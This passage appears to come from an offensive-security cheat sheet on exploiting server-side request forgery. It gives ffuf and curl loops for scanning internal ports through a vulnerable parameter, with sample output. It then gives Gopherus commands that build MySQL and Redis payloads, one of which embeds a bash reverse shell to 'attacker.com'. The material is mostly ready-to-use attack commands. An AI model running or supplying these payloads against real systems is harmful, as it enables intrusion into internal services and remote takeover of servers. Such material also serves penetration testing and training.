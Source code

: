 ## Enumeration Techniques

Port scanning via SSRF:
```shell
# Generate a list of ports to scan
seq 1 10000 > ports.txt

# Use ffuf to scan ports through SSRF
ffuf -w ./ports.txt -u http://172.17.0.2/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "dateserver=http://127.0.0.1:FUZZ/&date=2024-01-01" -fr "Failed to connect to"
```

Sample output showing open ports:
```
[Status: 200, Size: 45, Words: 7, Lines: 1, Duration: 0ms]
    * FUZZ: 3306
[Status: 200, Size: 8285, Words: 2151, Lines: 158, Duration: 338ms]
    * FUZZ: 80
```

### Advanced Service Enumeration

**Fingerprinting Services via HTTP Response Differences**:
```
# HTTP service fingerprinting via response size and content
for PORT in $(seq 1 65535); do 
  curl -s "http://vulnerable-site.com/fetch?url=http://127.0.0.1:$PORT" -o "port_$PORT.txt"
  SIZE=$(wc -c "port_$PORT.txt" | cut -d ' ' -f 1)
  if [ $SIZE -gt 0 ]; then
    echo "Port $PORT - Response size: $SIZE bytes"
  fi
done
```

## Advanced Exploitation

### Gopher Protocol Exploitation

The Gopher protocol can be especially dangerous with SSRF as it allows sending raw data to TCP services. Tools like Gopherus (https://github.com/tarunkant/Gopherus) can simplify creating payloads for:
- MySQL
- Redis
- FastCGI
- SMTP

Example usage:
```shell
# Creating a MySQL payload
python gopherus.py --exploit mysql --user root --password root --target-server 127.0.0.1:3306

# Creating a Redis payload to write a webshell
python gopherus.py --exploit redis --command "eval 'require(\"os\").execute(\"/bin/bash -c \\\"bash -i >& /dev/tcp/attacker.com/4444 0>&1\\\"\")')" --lhost 127.0.0.1 --lport 6379
```
